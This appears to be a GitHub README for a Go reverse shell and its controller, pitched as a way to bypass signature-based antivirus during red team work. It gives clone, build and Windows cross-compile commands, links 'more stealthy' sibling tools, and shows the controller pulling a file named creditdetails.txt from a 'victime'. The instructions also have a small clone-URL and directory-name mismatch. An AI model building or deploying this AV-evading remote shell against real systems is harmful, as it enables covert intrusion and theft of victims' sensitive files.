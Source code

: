# Reverseshell and manager in go lang
  
Will help to bypass signature based AV engines while doing red team engagements.
## Please check mask and shadow for more stealthy shells :)
### https://github.com/diljithishere/mask
### https://github.com/diljithishere/shadow

## Getting Started

git clone https://github.com/diljithishere/reversehellgo.git

cd reverseshellgo

go build manageShell.go

./manageShell

Build executable for reverseshell

**GOOS=windows GOARCH=386 go build -o new.exe reverseshell.go**


### Prerequisites

go 1.9

```
./manager
This will wait for the revershell to connect back once connected you can see >> prompt
If you want to download file from victime supply get command  
>> get creditdetails.txt
```
